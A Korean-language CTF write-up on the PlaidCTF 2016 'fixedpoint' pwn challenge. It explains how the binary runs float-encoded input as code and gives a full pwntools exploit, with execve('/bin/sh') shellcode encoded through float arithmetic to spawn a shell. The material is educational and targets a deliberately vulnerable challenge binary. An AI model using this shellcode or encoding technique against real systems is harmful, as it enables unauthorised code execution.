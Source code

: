 ```yaml
---
layout: post
title: "PCTF 2016 - fixedpoint"
date: 2017-11-17 +0900
author: "JaeHyuk Lim"
categories: [ctf, pwn]
tags: [ctf, pwn, exploit]
---
```


## I. 바이너리 분석
  이번에도 재미있는 CTF문제를 하나 들고왔다. 사실 이번 문제는 그렇게 공격이 어려운 문제는 아니었는데, 쉽게 Floating 데이터가 어떻게 관리가 되는지, 그리고 ShellCode를 만들줄 아는지에 대한 문제였다.<br />
  일단, Hex-Ray로 디컴파일을 한 결과는 다음과 같다.<br />
  <br />
  ```C
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
  signed int v4; // [sp+24h] [bp-Ch]@2
  signed int i; // [sp+28h] [bp-8h]@1
  int (*v6)(void); // [sp+2Ch] [bp-4h]@1

  v6 = (int (*)(void))mmap(0, 0x8000u, 7, 34, -1, 0);
  for ( i = 0; i <= 0x1FFF && __isoc99_scanf((const char *)&unk_80485F0, &v4); ++i )
    *((float *)v6 + i) = (long double)v4 / 1337.0;
  write(1, "here we go\n", 0xBu);
  return v6();
  }
  ```
  소스코드가 매우 짧다.<br />
  미리 이야기를 하지만 포너블이나 익스플로잇 관련된 기술에 접근할 때는, 해당 프로그램 또는 소스코드가 무슨 역할을 하는 녀석인지 확실하게 알고 진행해야한다.<br />
  이 코드는 mmap으로 0x8000만큼의 사이즈를 가지는 메모리 영역을 rwx 모든 권한을 할당한 채로 새로 매핑한다는 뜻이다.<br />
  그렇게 새로 매핑된 주소는 v6라는 변수 안에 들어간다. 이 v6 변수는 함수 포인터로 사용이 되는데, 우리가 입력한 정수 값이 1337.0과 나눠진 결과를 float 데이터로 4바이트씩 저장한다.<br />
  그리고 마지막에 해당 주소를 call함으로써 우리가 생성한 쉘코드를 실행한다.<br />
  <br />
  비슷한 문제가 사실 DEFCON CTF 2017 예선때도 하나 나왔었는데, 그 당시에는 나는 파이썬에서 그런게 가능한줄도 모르고 직접 손으로 계산해서 쉘코드를 만들었었다.<br />
  일단, 우리는 대학 컴퓨터 프로그래밍 시간에도 배웠겠지만 floating pointer는 지수영역과 가수영역이 따로 나뉘어져 연산되고 관리된다는 것을 알고 있다.<br /><br />
  <img src="http://www.c-jump.com/bcc/common/Talk2/Cxx/IEEE_754_fp_standard/const_images/ieee.gif" />
  <br />
  <br />
  그렇기 때문에 사실상 직접 계산해서 쉘코드를 만드는 것은 많이 복잡한편이다.<br />
  그래서 나는 Python의 struct모듈을 활용했는데, 이전까지는 Long, Integer 형태의 데이터만 pack, unpack하기 위해서 사용했었는데 이번에는 처음으로 Floating 옵션을 사용하게 되었다.<br />
  예를 들어서 위에 있는 1337을 나누는 코드를 내가 원하는 값이 나오게 만들려면 어떤 값을 넣어야할지 찾을 때, 다음과 같은 코드를 사용할 수 있다.<br />
  ```Python
  #!/usr/bin/python
  import struct
  from pwn import *

  pf32 = lambda x: struct.pack("<f", x)
  uf32 = lambda x: struct.unpack("<f", x)[0]
  pl32 = lambda x: struct.pack("<L", x)
  ul32 = lambda x: struct.unpack("<L", x)[0]

  ...
  deadbeef = ul32(pl32(uf32("\x41\x41\x41\x41") * 1337))
  ...
  ```
  이 코드의 실행결과는 다음과 같다.
  <br />16148<br />
  이를 fixedpoint 바이너리 안에 넣어서 확인해보면 다음과 같은 결과를 볼 수 있다.

  <br />
  > 0x41413e9d<br />
  이는 연산이 잘못된 것이 아니라, 상위 바이트는 우리가 표현할 수 있는 영역에 한계점이 있기 때문에 발생하는 오차이다.<br />
  이 때문에 우리는 조금 더 안정적인 쉘코드를 작성하려면, 적어도 상위 바이트는 임의로 변하지 않는 값을 넣어주어야 한다.<br />
  즉, 데이터 타입의 영향을 받지 않는 녀석을 선정해야한다.<br />


  ## II. Exploit
  ```Python
#!/usr/bin/python
import struct
from pwn import *

pf32 = lambda x: struct.pack("<f", x)
uf32 = lambda x: struct.unpack("<f", x)[0]
pl32 = lambda x: struct.pack("<L", x)
ul32 = lambda x: struct.unpack("<L", x)[0]

p = process("./fixedpoint")
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\x31\xd2\xcd\x80"
gadget = asm("inc esi")
make_sh = []

print "[*] Disassemble Shellcode"
print "==================================================="
print disasm(shellcode)
print "===================================================\n\n"

make_sh.append(asm('mov edi, esp'))		# Stack Pointer Moved
make_sh.append(asm('mov al, 0x2f'))		# '/'
make_sh.append(asm('mov [edi], al'))		# mov [edi], al
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x62'))		# 'b'
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x69'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x6e'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x2f'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x73'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x68'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('xor eax, eax'))
make_sh.append(asm('mov [edi], al'))

make_sh.append(asm('mov ebx, esp'))
make_sh.append(asm('push eax'))
make_sh.append(asm('push ebx'))
make_sh.append(asm('mov ecx, esp'))
make_sh.append(asm('mov al, 0xb'))
make_sh.append(asm('xor edx, edx'))
make_sh.append(asm('int 0x80'))

shell = ''.join(x for x in make_sh)
print "Final Shellcode"
print "==========================================="
print disasm(shell)
print "==========================================="

for data in make_sh:
	payload = data
	payload = payload.ljust(0x3, gadget)
	payload = payload.rjust(0x4, gadget)
	floating = ul32(pl32(uf32(payload) * 1337))
	p.sendline(str(floating))

p.sendline("Get Shell!!")
print p.recvuntil("go")

p.interactive()
  ```